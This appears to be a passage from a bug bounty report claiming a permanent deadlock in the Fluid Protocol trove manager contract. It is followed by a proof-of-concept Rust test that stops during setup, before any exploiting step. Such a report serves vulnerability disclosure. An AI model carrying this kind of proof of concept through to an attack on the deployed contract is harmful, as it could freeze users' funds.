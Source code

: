 ## Impact Details

This vulnerability can cause a deadlock in the contract permanently

## References

https://github.com/Hydrogen-Labs/fluid-protocol/blob/main/contracts/trove-manager-contract/src/main.sw#L819

## Proof of Concept

## Proof of Concept

```
use fuels::{prelude::*, types::Identity};
use test_utils::data_structures::{ContractInstance, PRECISION};
use test_utils::interfaces::oracle::oracle_abi;
use test_utils::interfaces::protocol_manager::ProtocolManager;
use test_utils::interfaces::pyth_oracle::PYTH_TIMESTAMP;
use test_utils::utils::print_response;
use test_utils::{
    interfaces::{
        active_pool::active_pool_abi,
        borrow_operations::{borrow_operations_abi, BorrowOperations},
        coll_surplus_pool::coll_surplus_pool_abi,
        protocol_manager::protocol_manager_abi,
        pyth_oracle::{pyth_oracle_abi, pyth_price_feed},
        token::token_abi,
        trove_manager::{trove_manager_abi, trove_manager_utils, Status},
    },
    setup::common::setup_protocol,
    utils::with_min_borrow_fee,
};

#[tokio::test]
async fn test_dead_lock() {
    let (contracts, _admin, mut wallets) = setup_protocol(5, true, false).await;

    let healthy_wallet1 = wallets.pop().unwrap();

    let balance: u64 = 12_000 * PRECISION;

    token_abi::mint_to_id(
        &contracts.asset_contracts[0].asset,
        balance,
        Identity::Address(healthy_wallet1.address().into()),
    )
    .await;

    let borrow_operations_healthy_wallet1 = ContractInstance::new(
        BorrowOperations::new(
            contracts.borrow_operations.contract.contract_id().clone(),
            healthy_wallet1.clone(),
        ),
        contracts.borrow_operations.implementation_id.clone(),
    );

    let coll1 = 6000 * PRECISION;
    let debt1 = 2000 * PRECISION;

    oracle_abi::set_debug_timestamp(&contracts.asset_contracts[0].oracle, PYTH_TIMESTAMP).await;
    pyth_oracle_abi::update_price_feeds(
```